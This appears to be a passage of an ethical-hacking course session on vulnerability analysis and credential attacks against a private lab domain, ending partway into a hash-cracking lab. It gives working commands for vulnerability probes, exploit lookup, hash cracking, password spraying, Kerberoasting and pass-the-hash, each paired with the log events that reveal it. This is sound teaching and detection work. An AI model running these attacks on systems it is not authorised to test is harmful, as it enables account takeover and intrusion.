

Vulnerability Analysis, Authentication & Password Attacks
Recon was invisible. Scanning was loud. Today the enumerated services and users become a vulnerability and a credential — and for the first time you attack a real domain.
Today's agenda
| Block | What we do | Format | Min |
|---|---|---|---|
| 1 | Where we left off — the target profile becomes today's ammunition | Theory | 8 |
| 2 | Lab pre-flight — the domain up, the profile in hand, rockyou unpacked | Hands-on | 5 |
| — Half A · Vulnerability Analysis — | |||
| 3 | Vulnerability concepts & the vulnerability funnel | Theory | 8 |
| 4 | Research sources + CVSS scoring (the vector, not just the number) | Theory | 9 |
| 5 | searchsploit + nmap --script vuln | Theory | 7 |
| 6 | Lab 1 — version → CVE → "does a public exploit exist?" | Hands-on | 16 |
| 7 | Automated scanning — Nessus Essentials vs Greenbone/GVM | Theory | 7 |
| 8 | Lab 2 — a vuln scan, and the "critical" that's a false positive | Hands-on demo | 8 |
| — Half B · Authentication & Password Attacks (the domain) — | |||
| 9 | Authentication + hashing vs encryption vs encoding | Theory | 9 |
| 10 | Where creds live + NTLM challenge-response (animated) | Theory | 10 |
| 11 | Kerberos ticket flow (animated) + the two bleed points | Theory | 10 |
| 12 | Password-attack taxonomy + the hash-cracking pipeline | Theory | 9 |
| — | Break | — | 10 |
| 13 | Offline cracking — hashcat + john | Theory | 8 |
| 14 | Lab 3 — crack SAM + /etc/shadow; the wordlist that fails | Hands-on | 15 |
| 15 | Online attacks — hydra · netexec; spray vs brute vs lockout | Theory | 8 |
| 16 | Lab 4 — password spray the DC → the 4625 spike | Hands-on | 14 |
| 17 | LLMNR/NBT-NS poisoning + Responder | Theory | 8 |
| 18 | Lab 5 — poison a broadcast, capture a NetNTLMv2, crack it | Hands-on | 14 |
| 19 | Kerberoasting + AS-REP roasting + Impacket + pass-the-hash | Theory | 9 |
| 20 | Lab 6 — roast a service ticket → the 4769; and the one that won't crack | Hands-on | 15 |
| — Defence · deliverable · bridge — | |||
| 21 | The auth-log SOC flip — 4625 / 4768-4769 / Responder side by side | Defender | 6 |
| 22 | Lab 7 — write the credential-attack detection rule (the signature exercise) | Hands-on | 16 |
| 23 | Lab 8 — assemble the access plan (Session 5's input) | Hands-on | 12 |
| 24 | Into Session 5 — shells & Metasploit, framed (concept only) | Theory | 6 |
| 25 | Knowledge check · practice range · homework | Wrap-up | 17 |
Two things. An access plan — per host: confirmed vulnerabilities (CVE + CVSS base score + does a public exploit exist?), credentials obtained and how (cracked hash / password spray / LLMNR poison / Kerberoast / pass-the-hash), and the single chosen way in. And one working credential-attack detection rule (Sigma / SPL / KQL), written from auth-log evidence you generate yourself. The access plan is Session 5's input. The rule is the job.
Every attack today runs against your own host-only lab — Metasploitable2, Windows 7, Windows 10, and the ceh.lab domain controller you built in Session 3. Cracking a hash, spraying a password, or poisoning a broadcast on any network you don't own is a criminal offence. The lab hands you the target and the authorisation. That authorisation does not travel.
Authentication is the single most-attacked and most-monitored surface in any network. Every credential attack you run today is loud in the auth logs — a spray spikes 4625, a Kerberoast lands in 4769, a poisoning shows up the moment Responder answers. This is where the SOC earns its salary, so every attack carries its auth-log flip, and the session ends with you writing the detection rule from logs you generated yourself.
The Target Profile Becomes Ammunition
Session 3 ended with a ranked, enumerated picture of every host. Today each line of it turns into a vulnerability or a credential.
You walked in with a target profile: open ports, exact service versions, users, shares, SNMP/LDAP findings, and a ranked "most likely way in" per host. Recon (S2) built it without touching anything; scanning (S3) confirmed it and lit up the target's logs. Session 4 spends it — and does so, for the first time, against a real domain, not a standalone box.
The session is two halves that meet in the middle. The left half asks "what is wrong with what I found?" — it turns a version string into a CVE, a CVSS score, and a yes/no on whether a public exploit exists. The right half asks "whose credential can I take?" — it turns a hash or a ticket into a working login. Both halves converge on the same thing: a way in that Session 5 will execute.
A port scan is noise a firewall logs. A credential attack is an alarm an identity platform screams about — a spray, a Kerberoast, a poisoning are the highest-signal events on the whole ATT&CK matrix, because authentication is what everything else is protecting. Learn the attack and you can run it once; learn what it writes to the log and you can catch it every day. That second skill is the tier-1-into-tier-2 SOC job.
Where today sits on ATT&CK
Session 3 lived in Discovery. Today we move into Credential Access — the tactic every technique below belongs to — and hand off to Lateral Movement / Exploitation at the end. (IDs verified against the live ATT&CK matrix.)
| Tactic | Technique (today) | Where in this session |
|---|---|---|
| TA0007 Discovery | Vulnerability scanning (part of active scanning) | Half A — vuln analysis |
| TA0006 Credential Access | T1110.001 Brute Force: Password Guessing · T1110.003 Password Spraying | Lab 4 |
| T1003 OS Credential Dumping — .001 LSASS · .002 SAM · .003 NTDS | Lab 3 / Lab 6 | |
| T1558.003 Kerberoasting · T1558.004 AS-REP Roasting | Lab 6 | |
| T1557.001 LLMNR/NBT-NS Poisoning & SMB Relay | Lab 5 | |
| T1550.002 Use Alternate Auth Material: Pass the Hash | Lab 6 | |
| TA0008 / TA0002 (hand-off) | T1210 Exploitation of Remote Services | Into Session 5 |
You rarely need to "break" anything. A missing patch, a reused password, a service account with a weak secret, a workstation that still trusts a broadcast — each hands you a legitimate credential or a known exploit. Attackers log in. Your job on the other side is to notice when a login isn't one.
Pre-flight — the Domain Up, the Profile in Hand
Five minutes so nobody spends the session fighting a dead VM. Today's attacks need the domain answering and your wordlist unpacked.
Half of today runs against the ceh.lab domain controller. If the DC isn't up, LDAP/Kerberos are dead and Kerberoasting, spraying and LLMNR have nothing to talk to. Confirm the lab is healthy now, exactly as you did before Session 3 — plus two Session-4-specific checks.
The DC now carries a third snapshot, baseline-s4 (SPN + spray passwords + lockout policy on top of the domain). Reverting to baseline-dc or earlier silently removes the Kerberoast target and the spray accounts, and half the labs return nothing.
-
All five VMs on the host-only network, and the DC reachable.
# from Kali ip a | grep -A2 'ens\|eth' # your host-only IP sudo nmap -sn 192.168.56.0/24 # expect Kali + MSF2 + Win7 + Win10 + DC # DC alive on the domain ports? nmap -Pn -p 88,389,445,636 192.168.56.10 # 88=Kerberos, 389/636=LDAP, 445=SMB✓ Verification
- All four targets answer; the DC shows 88, 389 and 445 open
- You have each host's IP written down (they feed every lab today)
-
The directory answers — so Kerberos and LDAP are really live.
ldapsearch -x -H ldap://192.168.56.10 -s base namingContexts # → DC=ceh,DC=lab nxc smb 192.168.56.10 # name, domain, signing✓ Verification
- Base naming context is DC=ceh,DC=lab
- nxc reports the host as a domain controller for ceh.lab
-
Your Session 3 target profile is open, and your wordlist is unpacked.
# rockyou ships gzipped on current Kali — unpack it once sudo gunzip -k /usr/share/wordlists/rockyou.txt.gz wc -l /usr/share/wordlists/rockyou.txt # ~14 million lines # confirm today's tools resolve which hashcat john hydra nxc responder impacket-GetUserSPNs evil-winrm searchsploit✓ Verification
- rockyou.txt exists and has ~14M lines
- Every tool resolves to a path (install lines are in the guided lab if one is missing)
- Your target profile's version strings and user list are in front of you — they are today's inputs
Every lab today ships a saved/ evidence fallback (a captured hash file, a pcap, a ticket) so you can still do the analysis and write the rule even if your VM won't boot. Ask for it rather than sitting out — the detection half matters more than the attack half.
From an Open Port to a Known Weakness
Enumeration told you what is running. Vulnerability analysis answers the next question: what is wrong with it, and can someone exploit that?
Your profile lists exact versions — vsftpd 2.3.4, Samba 3.0.20, an unpatched Windows 7. Each version string is a search key. Vulnerability analysis is the disciplined step between "I know what's running" and "I'm going to exploit it" — skip it and you're firing exploits blind.
What a vulnerability actually is
A vulnerability is a weakness that can be exploited — from a missing patch, a misconfiguration, an insecure design, or a careless user. Two terms students conflate:
| Term | What it is | Stops at |
|---|---|---|
| Vulnerability assessment | Finding weaknesses — scanning, version matching, scoring | Finding. No exploitation. |
| Penetration testing | Finding and exploiting them to prove impact | Proof — a shell, a credential, data |
Today is the bridge: Half A is assessment (find + score + confirm an exploit exists); the labs then cross into exploitation only where you have authorisation and a working credential. Session 5 does the full exploitation.
The vulnerability funnel
Every finding runs the same pipeline. It narrows: a box has dozens of services, a handful have known CVEs, fewer have a public exploit, and one is your best way in. Click each stage.
STAGE 1Service + version
The input, taken verbatim from your profile. Precision matters — vsftpd 2.3.4 has a backdoor; 2.3.5 does not. A wrong or fuzzy version (an -sV guess of tcpwrapped) sends you down the wrong CVE and wastes the session. Confirm the version by hand if the scanner hedged.
STAGE 2CVE — the identifier
A CVE is a catalogue number for one specific flaw (e.g. CVE-2017-0144 = EternalBlue). It is not a score and not an exploit — just a globally-agreed name so everyone means the same bug. You find them by searching the version string in the NVD / MITRE / vendor advisories.
STAGE 3CVSS — how bad
A 0–10 severity score with a vector behind it. It tells you priority, not reachability — a 9.8 that needs local access you don't have is lower value to you right now than a 7.5 you can reach over the network. Read the vector, not just the number (next page).
STAGE 4Does a public exploit exist?
The make-or-break question. A scary CVE with no working exploit is a report line; one with a Metasploit module or an Exploit-DB PoC is a way in. searchsploit and Exploit-DB answer it in seconds. This is where the funnel narrows hardest — most CVEs never get a reliable public exploit.
STAGE 5PoC ready
You have located a proof-of-concept and read enough of it to know its target, its requirements, and its blast radius. You do not run it here — you record it in the access plan. Firing an exploit you haven't read is how a pentest becomes an outage.
HAND-OFFSession 5
The funnel's output is one line in your access plan: "CVE-X, CVSS Y, public exploit: yes (module/EDB-id)." Session 5 takes that line and turns it into a shell. Today stops at "the key exists"; next session turns it.
Vulnerability analysis is the bridge between enumeration (what's running) and exploitation (getting in). It answers "what weakness exists in what I found, and can anyone actually exploit it?" — and it turns a pile of versions into a ranked, defensible list of ways in.
Where to Look, and How Bad It Is
Four sources answer "is this known?", and one scoring system answers "how bad?" — but the score you can act on is in the vector, not the headline number.
The funnel's middle two stages — CVE and CVSS — both come from research sources. Knowing which source answers which question keeps you out of vendor marketing and inside authoritative data.
The research sources
| Source | URL | Answers |
|---|---|---|
| NIST NVD | nvd.nist.gov | The CVE with its CVSS score, vector, and affected versions. Your first stop. |
| MITRE CVE | cve.org | The authoritative CVE record (MITRE moved from cve.mitre.org to cve.org). Identifier + description. |
| Exploit-DB | exploit-db.com | Whether a public exploit exists, mapped to the CVE. Backs searchsploit. |
| Vendor advisories | msrc / vendor sites | The patch, the workaround, the real affected build numbers. |
| FIRST CVSS calculator | first.org/cvss/calculator | Build or read a vector, and see how each metric moves the score. |
CVSS — read the vector, not the number
The Common Vulnerability Scoring System maps a vulnerability to 0–10. The number sets the severity band; the vector string behind it tells you whether you can use it right now.
| Score | 0.0 | 0.1–3.9 | 4.0–6.9 | 7.0–8.9 | 9.0–10.0 |
|---|---|---|---|---|---|
| Severity | None | Low | Medium | High | Critical |
CVSS v4.0 shipped November 2023, but most CVEs you meet — and the NVD — still lead with a v3.1 score, and CEH 312-50v12 is written to v3.x. v4.0 reworked the vector: it split impact into Vulnerable System (VC/VI/VA) and Subsequent System (SC/SI/SA), added Attack Requirements (AT), and dropped the old Scope. The lesson is the habit, not the letters: check which version a score is in before you compare two of them — an 8.1 v3.1 and an 8.1 v4.0 are not the same measurement.
Does a Public Exploit Exist?
Two tools answer the funnel's hardest stage — one offline and silent, one on the wire and loud.
You have a version and maybe a CVE. Before you write "way in" in the access plan you need to know a working exploit exists. searchsploit checks a local copy of Exploit-DB in a second; nmap --script vuln asks the target itself. The pair teaches a real distinction: research leaves no trace; checking the target does.
SILENTResearch is invisible
searchsploit reads a local copy of Exploit-DB. No packet leaves your box, so nothing is logged anywhere — you can research a target's every version all day and the defender never knows. This is why detection can't start until you touch the target.
LOUDAsking the target is an event
nmap --script vuln sends real, often malformed probes. The service logs the connections (WFP 5156, service logs) and IDS rules fire on the known script signatures. The instant "is this known?" becomes "is this host vulnerable?", it's detectable — map it to T1595 Active Scanning.
searchsploit — the 7-part frame
| What it is | A command-line search over a local, offline copy of the Exploit-DB archive (ships in Kali as exploitdb). |
| Why it exists | To answer "is there a public exploit for this?" in seconds, offline, without browsing to a website or tipping anyone off. |
| The method | Search by product and version, read the titles for a match to your exact version and platform, then read the exploit before trusting it. Broad first, then narrow — and mirror the copy (-m) so you have it locally. |
| Real syntax | |
| Read the output | |
| What it feeds | The "public exploit? yes/no + reference" column of your access plan — and Session 5's exploitation. |
| SOC flip | Nothing. searchsploit is a local database query — it never touches the target, so there is no log on the defender side. Attacker research is invisible; that's exactly why detection has to start at the next step. |
nmap --script vuln — the target answers
The NSE vuln category asks the service directly whether it is vulnerable — the fast way to turn a port into a confirmed CVE without a full scanner.
nmap -sV --script vuln 192.168.56.X # broad — all vuln scripts
nmap -p445 --script smb-vuln-ms17-010 192.168.56.107 # targeted — is Win7 EternalBlue-vulnerable?
# realistic output on the Windows 7 target:
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143Unlike searchsploit, --script vuln sends real, often malformed probes at the service. The target logs the connections (Windows Filtering Platform 5156, service logs), and an IDS flags the vuln-script signatures outright — Suricata/Snort rules exist for exactly these probes. Attacker ↔ defender: the moment research becomes a question asked of the target, it becomes an event the SOC can see. Map it to T1595 Active Scanning.
Its CVEs (vsftpd 2.3.4, Samba, UnrealIRCd) are perfect for practising CVE→exploit matching because they have clean, reliable public exploits. They are useless as a picture of a modern vulnerability landscape — nothing in production has looked like this since 2012. Practise the method here; don't generalise the findings.
Lab 1 — Turn Your Version Strings Into Ways In
Take the exact versions from your target profile and run each through the funnel: CVE → CVSS → does a public exploit exist?
No new scanning — you already have the versions. This lab is disciplined lookup: for each interesting service, find the CVE, note the CVSS, and answer the yes/no that matters — is there a working public exploit? You build the "way in" column of your access plan. You do not fire anything.
Step 1 — searchsploit your profile (Metasploitable2)
-
Search each version you enumerated, exact product + version.
searchsploit vsftpd 2.3.4 # → Backdoor Command Execution (Metasploit) searchsploit samba 3.0.20 # → usermap_script (Metasploit) — CVE-2007-2447 searchsploit unrealircd 3.2.8.1 # → Backdoor Command Execution — CVE-2010-2075 searchsploit -m unix/remote/16320.rb # mirror the Samba one to read it✓ Verification
- Each service returns at least one title matching its exact version
- You can name which hits are (Metasploit) = a reliable module exists
- You mirrored one exploit and read its header — target, requirements, what it does
Step 2 — ask the Windows 7 target directly (the CVE→exploit bridge)
-
Confirm MS17-010 with NSE — this is the one CVE you'll actually fire in Session 5.
nmap -p445 --script smb-vuln-ms17-010 192.168.56.107 # VULNERABLE: ... (ms17-010) IDs: CVE:CVE-2017-0143 # CVSS 8.1 High · public exploit: YES (Metasploit exploit/windows/smb/ms17_010_eternalblue)✓ Verification
- The script reports VULNERABLE and prints a CVE
- You recorded: CVE, CVSS 8.1, public exploit: yes — this line is the Session 5 target
- You noted this probe is logged on the target (unlike the searchsploit lookups)
Step 3 — the practice range (read versions as leads)
-
On Kioptrix 1, the old versions are the exploit map — practise reading them.
searchsploit mod_ssl 2.8.4 # → OpenFuck / OpenLuck — CVE-2002-0082 searchsploit samba 2.2 # → trans2open remote overflow # both have public exploits — record them, don't run them here✓ Verification
- You matched mod_ssl 2.8.4 → OpenFuck (CVE-2002-0082) and Samba 2.2.1a → trans2open
- You can state, for each, whether a public exploit exists
Step 4 — the deliberate failure case
Search samba 3.0.20 and you'll see several exploits. Now check the version on Windows 10: searchsploit "windows 10" returns pages of results, almost none of which apply to a patched build. The lesson: a searchsploit hit is a lead, not a finding. You confirm it by matching the exact version and reading the exploit's requirements — the wrong version or a patched target makes a "critical" a dead end. Record confidence, not hope.
A per-host list: for each interesting service — CVE, CVSS base score, and public exploit: yes/no + reference. That is the entire left half of your access plan. Metasploitable2 and Win7 will have clean "yes" lines; Windows 10 should be mostly "no public exploit for this build" — which is itself a finding (it's patched).
Automated Scanning — Nessus & Greenbone
Manual lookup doesn't scale to a /24. Automated scanners do the version→CVE→CVSS mapping across a whole network — and hand you a pile of findings you still have to judge.
You just did by hand what a scanner does at scale: match versions to CVEs and score them. Learn the manual method first so that when a scanner hands you 300 findings, you can tell the real ones from the noise — because a scanner's confidence is not proof.
STAGE 1Raw findings
What the scanner hands you — every banner-matched CVE, sorted by its own confidence. Includes false positives (version mismatches) and criticals you can't reach. This is a to-do list, not a conclusion.
STAGE 2Confirmed
You checked the real version by hand (nxc, netcat, the actual build). Drops the false positives where the scanner matched a banner that doesn't actually carry the flaw. This is where a "critical" often dies.
STAGE 3Reachable
Can you actually trigger it from where you are? Read the CVSS vector — an AV:N/PR:N beats a 9.8 that needs local access you don't have. Priority for the client ≠ priority for your foothold.
STAGE 4Ways in
The handful that are real, reachable, and have a working exploit. These go in the access plan. A scanner rarely surfaces these at the top — the judgement that finds them is the skill you're being paid for.
Nessus Essentials — the 7-part frame
| What it is | Tenable's vulnerability scanner. Nessus Essentials is the free tier — the industry-standard tool you'll meet on the job. |
| Why it exists | To scan a network, fingerprint every service, map each to known CVEs via a huge plugin feed, score them, and produce a remediation report — in one pass. |
| The method | Point it at authorised targets, pick a policy (Basic Network Scan), let the plugins run, then triage: sort by severity, confirm the criticals by hand, discard the false positives. The scan is 20% of the work; the triage is 80%. |
| Real syntax | Web UI at https://localhost:8834. New Scan → Basic Network Scan → targets 192.168.56.102,107,20,10 → Launch → read the colour-coded results. |
| Read the output | Findings by severity (Critical→Info), each with CVE, CVSS, a plugin description, and remediation. Read the plugin output — it shows the evidence, which is how you spot a false positive. |
| What it feeds | The vulnerability section of an assessment report — and, filtered to what's real and reachable, the access plan. |
| SOC flip | Extremely loud. A full scan hits every port on every host and throws malformed probes — it lights up IDS, WFP (5156), and every service log. On a monitored network a Nessus scan you didn't announce generates an incident. Authorised scans are scheduled and whitelisted for exactly this reason. |
Older courseware (and the "Nessus Home" name) says 16 hosts. As of 2026 the free Nessus Essentials tier scans 5 IPs — enough for our four lab targets (MSF2 · Win7 · Win10 · DC) if you leave Kali out. Tenable also sells a paid "Essentials Plus" at 20 IPs. The plugin download is large — do it before class. This is the standing habit: verify a tool's current limits before you quote them.
Greenbone / GVM — the FOSS alternative
The open-source option. Note the naming correction: "OpenVAS" is now the scanner engine inside the Greenbone Vulnerability Management (GVM) framework — the product is Greenbone/GVM, OpenVAS is a component of it.
| Nessus Essentials | Greenbone / GVM | |
|---|---|---|
| Licence | Free tier, 5 IPs | Fully open source, no IP cap |
| Feed | Large plugin download (do it early) | Community feed — slow initial sync (can be hours) |
| Weight | Installs on Kali or a host; moderate | Heavier; often its own light VM |
| On the job | The commercial standard you'll be handed | The budget / open-source shop's choice |
| Practice room | THM nessus (private) | THM openvas (free) |
Every student downloading a plugin feed and scanning is not worth the class minutes. Watch one scan, learn to read a result and question a "critical," then move on. The manual method (Lab 1) is the skill; the scanner is the scale.
Lab 2 — Read a Scan, Distrust a "Critical"
A guided scan of the lab, then the skill that actually matters: telling a real critical from a scanner's false positive.
This block is a guided demo — one Nessus (or Greenbone) scan of the four lab targets, watched and read together. The point isn't launching a scan; it's learning to triage one, because the report you're handed on the job is only as good as your ability to question it.
Follow along
-
Watch the scan run and note the shape of the output.
# Nessus: New Scan → Basic Network Scan → 192.168.56.102,107,20,10 → Launch # Greenbone: Scans → Tasks → New Task → target the same four → Start # Metasploitable2 lights up red; Win10 comes back nearly clean (it's patched)✓ Verification — you can read the result
- You can name the most-vulnerable host (MSF2) and the cleanest (Win10) from the colour bands
- You can open one Critical and find its CVE, CVSS, and plugin output (the evidence)
-
Find the false positive. Pick a "Critical" and confirm it by hand against the actual version.
# scanner says: "Critical — Samba badlock (CVE-2016-2118)" # confirm the real version yourself: nxc smb 192.168.56.102 # Samba 3.0.20 — predates the reported issue / not the real risk here # the reachable, proven way in on this box is usermap_script (CVE-2007-2447), which you found in Lab 1✓ Verification — you distrusted the tool
- You picked one "critical," checked the real version, and judged whether it's reachable and real or a version-match false positive
- You can state why a scanner over-reports: it matches banners, not proven exploitability
On a monitored network this exact scan trips the IDS and fills the WFP log (5156) with one source touching every port on every host — the same one-to-many signature you wrote a rule for in Session 3. Authorised vuln scans are announced and whitelisted precisely so the SOC doesn't chase them. An unannounced Nessus scan is a red-team indicator.
A scanner finds candidates; you confirm findings. "Critical" is the tool's confidence, not proof — a version-match false positive wastes a client's time and a real reachable medium can matter more than an unreachable critical. The judgement is the job the tool can't do.
What a Credential Really Is
Before a single tool: authentication, and why a hash can be cracked even though it can't be reversed. Get this and every attack today is obvious.
A student who runs hashcat -m 1000 has learned nothing. A student who can explain what an NTLM hash is, why it's crackable offline, and why spraying beats brute-force against a lockout policy has learned authentication. So we build the mechanism first, then hang the tools on it.
Authentication in one line
Authentication is proving you are who you claim to be — with something you know (password), have (token, key), or are (biometric). Passwords are the weak link, and the rule is universal: passwords are stored hashed, never in plaintext. Everything today is about getting at, or abusing, those stored or in-transit secrets.
Hashing vs encryption vs encoding
Students conflate these constantly, and the whole session depends on the difference.
You never reverse a hash. You take a wordlist, hash every candidate with the same algorithm, and compare to the target. A match means you found the input. That's why weak or common passwords fall in seconds (they're in the wordlist) and long random ones don't (they aren't). "Cracking" is guessing at scale — nothing more.
A salt is random data added before hashing, so two users with the same password get different hashes. It defeats rainbow tables (pre-computed hash→password lookups) and stops one crack from revealing every reused password. NTLM has no salt — which is exactly why Windows hashes are so attractive to an attacker and why NTLM is on its way out.
Where Credentials Live, and What Crosses the Wire
Three stores hold Windows secrets, and NTLM's challenge-response decides what an attacker on the network can actually grab.
Every credential attack today targets one of these stores or the traffic between them. Knowing where a secret lives tells you which attack applies — SAM cracking, LSASS dumping, NTDS extraction, or capturing a challenge-response off the wire.
Where Windows credentials live
| Store | Holds | Attack (ATT&CK) | Today |
|---|---|---|---|
| SAM (local) | Local account NT hashes, per machine | SAM dumping — T1003.002 | Lab 3 |
| LSASS (memory) | Hashes + tickets of logged-on users, live | LSASS dump (mimikatz) — T1003.001 | intro (full in S6) |
| NTDS.dit (DC) | Every domain account's hash | NTDS extraction — T1003.003 | Lab 6 (secretsdump) |
| The wire | NTLM challenge-response (NetNTLMv2) | Poisoning / relay — T1557.001 | Lab 5 |
NTLM challenge-response — press play
NTLM authenticates without sending the password or the NT hash across the network. Watch what actually travels — because that's what Responder captures.
NetNTLMv2 (what crosses the wire, what Responder grabs, hashcat mode 5600) is not the NT hash (what sits in the SAM, hashcat mode 1000). Same account, different artefacts, cracked differently. Confuse them and you'll pick the wrong hashcat mode and waste an hour.
Kerberos, and Its Two Bleed Points
The modern Windows protocol is ticket-based — and it leaks in exactly two places, which are two of today's attacks.
Active Directory prefers Kerberos. It's more secure than NTLM by design — but "more secure" isn't "no attack surface." Two specific messages in the flow can be requested by any user and cracked offline. Learn the flow and AS-REP roasting and Kerberoasting stop being magic.
The ticket flow — press play
Kerberos uses a trusted third party, the KDC (Key Distribution Center, running on the DC), and tickets instead of passwords. Three exchanges:
If an account has "Do not require Kerberos pre-authentication" set, anyone can ask for its AS-REP without proving who they are. The AS-REP is encrypted with that user's password hash → crack it offline (hashcat -m 18200). No credentials needed to request it. Tool: GetNPUsers.
Any authenticated user can request a service ticket for any SPN. That ticket is encrypted with the service account's password hash → crack it offline (hashcat -m 13100). Service accounts often have old, weak passwords, which is why this works. Tool: GetUserSPNs. This is Lab 6.
Every ticket request hits the DC and is logged: 4768 (TGT requested, AS-REP), 4769 (service ticket requested, TGS-REP). A burst of 4769 for many SPNs from one account — especially with encryption type 0x17 (RC4) — is the Kerberoast signature. You'll key a rule on exactly this in Lab 7.
Every Password Attack on One Map
The first split decides everything: are you attacking the login (online) or a stolen hash (offline)? They have opposite constraints.
hashcat, hydra, netexec, Responder, Impacket — each is just one branch of this map. See the whole thing once and every tool has an obvious place, and you'll pick the right attack for the situation instead of reaching for the one tool you remember.
ONLINEAttacking the live login
You send guesses at a running service (SMB, RDP, SSH, a web form). Slow, and noisy — every attempt is logged, and a lockout policy will lock the account after N tries. Rate-limited and detectable. Tools: hydra, medusa, netexec.
ONLINEPassword spraying
One password, tried against many accounts. The inversion of brute-force: instead of many passwords vs one account (which trips lockout), try Autumn2025! against everyone — one attempt each stays under the threshold. The single most effective real-world domain attack. Lab 4.
ONLINECredential stuffing
Reusing username+password pairs from a breach dump against a target, betting on password reuse. Not "guessing" — replaying known-good credentials. Defeated only by unique passwords + MFA.
OFFLINEAttacking a stolen hash
You already have the hash (from SAM, NTDS, a capture, a roast). Now there's no lockout, no rate limit, no log on the target — you can try billions of guesses on your own GPU. This is where hashcat and John live, and why stealing a hash is the game-changer.
OFFLINERule-based
Mutate a wordlist with rules — capitalise, append 123, swap a→@. rockyou + best64.rule turns 14M words into billions of realistic human passwords, cheaply. The highest-yield offline technique against human-chosen passwords.
OFFLINEMask attack
Brute-force with a known pattern. If you know the policy is "8 chars, ends in a digit," a mask like ?u?l?l?l?l?l?l?d searches only that space instead of everything — brute-force made tractable by structure.
SHORTCUTPass-the-hash (T1550.002)
You don't always need the plaintext. NTLM authenticates with the hash — so an NT hash is the credential. Feed it straight to nxc ... -H <hash> or psexec and authenticate without ever cracking. The whole reason a strong password doesn't save a machine once its hash leaks. Lab 6.
The hash-cracking pipeline
Every offline crack is the same four steps. Get any one wrong (usually the mode) and it silently fails.
STEP 1Get the hash
From the SAM (local), NTDS.dit (domain), a Responder capture, or a roasted ticket. The format you get decides the mode — a captured NetNTLMv2 looks nothing like a SAM NT hash. Keep the whole line; some formats need the username and salt too.
STEP 2 · where it failsIdentify + pick the mode
The same hash string with the wrong -m never matches. NT hash = 1000, NetNTLMv2 = 5600, Kerberoast = 13100, AS-REP = 18200. Use hashid or the artefact's shape to choose. This is the single most common mistake in the room.
STEP 3Wordlist + rules/mask
Cheap guesses first. rockyou alone, then + best64.rule (mutations), then a mask if you know the pattern. This ordering is why a real crack takes seconds, not days — you exhaust the likely space before the brute space.
STEP 4Plaintext
A working credential. --show prints hash:plaintext. Exhausted means the wordlist ran out — not "uncrackable"; escalate rules → mask before you give up.
Break
Halfway. The mechanism is done — the rest of the session is at the keyboard, cracking and capturing real credentials against the domain.
Stretch, then back to it
Press start when the break begins.
Four labs left, each generating real evidence: SAM/shadow hashes you crack, a 4625 spray spike, a captured NetNTLMv2, and a 4769 Kerberoast. You'll read all of it as a defender at the end and write the rule that catches it. Keep every output file — Lab 7 needs them.
hashcat & John — the Offline Crackers
Two tools, one job: guess billions of candidates against a stolen hash, on your hardware, with no one watching.
Both crack hashes offline; they differ in strengths. hashcat is GPU-accelerated and mode-driven — fastest, and what you'll use for every Windows/Kerberos hash today. John the Ripper (the "jumbo" build) is CPU-friendly, auto-detects many formats, and ships handy *2john helpers. Learn the method once; it's identical.
hashcat — the 7-part frame
| What it is | A GPU-accelerated offline password recovery tool. Mode-driven: -m selects the hash type. |
| Why it exists | Because a stolen hash has no lockout and no rate limit — the only limits are your hardware and your wordlist. hashcat maxes both. |
| The method | Identify the hash → pick the exact -m mode → start with a wordlist → add rules → escalate to a mask. Fast, cheap guesses first; expensive brute-force last. |
| Real syntax | |
| Read the output | Each cracked line prints hash:plaintext. Status: Cracked = done; Exhausted = the wordlist ran out without a match (not "uncrackable" — try rules or a bigger list). |
| What it feeds | The "credentials obtained + how" column of the access plan. |
| SOC flip | None on the target. Offline cracking happens on your box — the victim never sees it. The detectable event was earlier: how you got the hash (a SAM dump, a Kerberoast 4769, a Responder capture). That's the lesson — you detect the theft, never the crack. |
The modes you need today — memorise these four
| -m | Hash | Where it came from |
|---|---|---|
| 1000 | NTLM (NT hash) | SAM dump, NTDS.dit — Lab 3, Lab 6 |
| 5600 | NetNTLMv2 | Responder capture — Lab 5 |
| 13100 | Kerberos 5 TGS-REP (RC4) | Kerberoast (GetUserSPNs) — Lab 6 |
| 18200 | Kerberos 5 AS-REP (RC4) | AS-REP roast (GetNPUsers) — Lab 6 |
John the Ripper (jumbo) — the same job, CPU-first
unshadow passwd.txt shadow.txt > unshadowed.txt # merge /etc/passwd + /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --show unshadowed.txt # print cracked
# the *2john helpers turn artefacts into John/hashcat input:
# zip2john, ssh2john, keepass2john, kirbi2john ...sudo gunzip -k /usr/share/wordlists/rockyou.txt.gz once (the -k keeps the archive). It's the single most useful wordlist you own — ~14M real leaked passwords. Pair it with best64.rule and you cover the overwhelming majority of human-chosen passwords.
Lab 3 — Crack Local Hashes, Both OSes
Windows SAM hashes with hashcat, Linux /etc/shadow with John — the same pipeline, two credential stores.
Turn stolen hashes into plaintext credentials. You'll dump the local SAM from a Windows box (needs a local admin credential you have), crack the NT hashes, then crack Metasploitable2's /etc/shadow. Both feed the access plan. This is offline — the targets see nothing once you have the hash.
Step 1 — dump and crack the Windows SAM (Win7 / Win10)
-
Dump the local SAM with secretsdump (uses a local admin credential).
